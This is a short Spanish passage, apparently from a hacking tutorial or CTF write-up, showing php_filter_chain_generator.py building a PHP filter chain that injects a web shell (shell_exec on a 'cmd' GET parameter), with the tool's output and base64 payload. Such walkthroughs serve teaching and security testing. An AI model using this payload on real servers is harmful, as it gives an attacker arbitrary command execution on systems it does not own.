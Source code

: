 Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```